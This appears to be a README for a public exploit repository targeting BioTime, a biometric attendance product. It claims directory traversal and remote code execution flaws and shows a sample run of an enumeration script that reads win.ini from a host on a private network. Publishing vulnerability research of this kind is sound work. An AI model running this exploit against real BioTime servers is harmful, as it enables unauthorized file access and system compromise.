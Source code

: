# Biotime Directory Traversal, Remote Code Execution
The exploit covers several vulnerabilities in BioTime which lead to Remote Code Execution or atleast directory traversal. - @w3bd3vil

For more details read the blog post at
> https://krashconsulting.com/fury-of-fingers-biotime-rce/

```
└ $ python .\biotime_enum.py http://192.168.0.12:81
Found BioTime: 8.0.5 (Build:20211030.13012)
Dir Traversal Attempt
Output of windows/win.ini file:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
CMCDLLNAME32=mapi32.dll
CMC=1
MAPIX=1
MAPIXVER=1.0.0.1
OLEMessaging=1
[...]
```
